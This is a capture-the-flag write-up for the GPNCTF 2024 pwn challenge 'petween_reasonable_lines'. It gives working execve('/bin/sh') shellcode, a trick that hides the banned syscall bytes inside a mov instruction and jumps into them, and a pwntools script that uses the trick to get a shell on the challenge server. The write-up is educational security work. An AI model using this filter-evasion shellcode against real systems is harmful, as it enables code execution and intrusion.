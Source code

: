 ```yaml
---
author: aayushborkar14
pubDatetime: 2025-02-01T00:00:00Z
title: GPNCTF 2024 - Pwn petween_reasonable_lines
slug: "GPNCTF2024petween_reasonable_lines"
featured: true
tags:
  - pwn
  - GPNCTF
description: "Writeup of the pwn challenge petween_reasonable_lines in GPNCTF 2024"
---
```


# GPN CTF 2024

## pwn/petween-reasonable-lines

## Introduction

This is a shellcode assembly challenge.
We're given a perl script `vuln.pl`:

```perl
#!/usr/bin/perl
use strict;
use DynaLoader;
use IPC::Open2;

print "Disassemble what?\n";
$| = 1;
my $s = 42;
my $p = syscall(9, 0, $s, 2, 33, -1, 0);
syscall(0, 0, $p, $s);
my $c = unpack "P$s", pack("Q", $p);

open2 my $out, my $in, "ndisasm -b64 -";
print $in $c;
close $in;
for (<$out>) {
 print $_;
 if (/syscall|sysenter|int|0x3b/) {
  die "no hax pls";
 }
}

print "Looks safe.\n";
syscall(10, $p, $s, 4);
&{DynaLoader::dl_install_xsub("", $p)};
```

Understanding the perl code is not required to solve the challenge. But here is a breakdown of the important parts of the code:
<br>
`$p` is the address of the memory region created by calling `mmap` (syscall 9) with `PROT_WRITE` flag.
Next, the program is reads `$s` (42) bytes from the standard input into `$p` (using syscall 0).
`$c` is the shellcode that we read from the standard input.
<br><br>
The program then disassembles the shellcode (and prints every line) using `ndisasm` and filters out `syscall`, `sysenter`, `int`, `0x3b`.
It uses `mprotect` (syscall 10) to set the memory to `PROT_EXECUTE` only and uses DynaLoader to load and execute the shellcode.
So, we're expected to write a shellcode to make a `execve(/bin/sh)` call without using any of the filtered instructions.

## Writing basic shellcode

First, let's write some `nasm` shellcode that uses `syscall` to make a `execve(/bin/sh)` call.

```nasm
global _start
section .text
_start:
    mov rdi,0x68732f2f6e69622f
    push 0
    push rdi
    push rsp
    pop rdi
    xor rax, rax
    xor rsi, rsi
    xor rdx, rdx
    mov al, 59
    syscall
```

This basically loads the string `/bin//sh` into `rdi`. But `execve` expects a pointer to the string as the first argument (`rdi`). So, we push the address of the string onto the stack and load it into `rdi` (the `push 0` is for the null terminator). Then, we zero out `rax`, `rsi`, `rdx` (making other arguments 0 to be safe) and set `rax` to `59` (the syscall number for `execve`). Finally, we make the syscall.
<br>
Assembling and running this code via `nasm -felf64 shellcode.s && ld shellcode.o -o shellcode && ./shellcode` gives us a shell, as expected.

## Exploit

Viewing the code at [godbolt](https://godbolt.org/>) gives us the following disassembly:<br><br>
![Disassembly](godbolt1.jpeg)<br><br>
The lines using `0x3b` and `syscall` in hex are `b0 3b 0f 05`. So if we write a valid instruction that contains these bytes, and if we jump to the middle of that instruction to the `b0 3b 0f 05` part, then out desired instructions will be executed and the instruction wouldn't trigger any of the filters.
<br><br>
Since, our desired instructions are of 4 bytes, we can write a `mov` instruction from `0x050f3bb0` (the instruction in little endian) into any of the 4 byte registers.
`mov eax, 0x050f3bb0` translates to `b8 b0 3b 0f 05` in hex.
<br><br>
Next, we write some code that jumps to the middle of the `mov` instruction:<br><br>
![Disassembly](godbolt2.jpeg)<br><br>
Finally, we write a `pwntools` script to send this shellcode to the server:

```python
from pwn import *

context.arch = "amd64"
a = asm("""
movabs rdi, 0x68732f2f6e69622f
push 0x0
push rdi
push rsp
pop rdi
xor rax, rax
xor rsi, rsi
xor rdx, rdx
lea rbx, [rip + 0x3]
jmp rbx
mov eax, 0x50f3bb0""")

# p = process("./vuln.pl")
p = remote("xxx.ctf.kitctf.de", "xxx", ssl=True)
p.recvuntil(b"Disassemble what?")
p.sendline(a)
p.recvuntil(b"Looks safe.")
p.interactive()
```

Running this script gives us a shell:

```bash
[+] Opening connection to xxx.ctf.kitctf.de on port xxx: Done
[*] Switching to interactive mode

$ ls
bin
boot
dev
etc
flag
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
$ cat flag
GPNCTF{On3_d0es_Not_s1mply_Jump_int0_th3_m1ddle_of_4n_instruct1ion!!1}
```
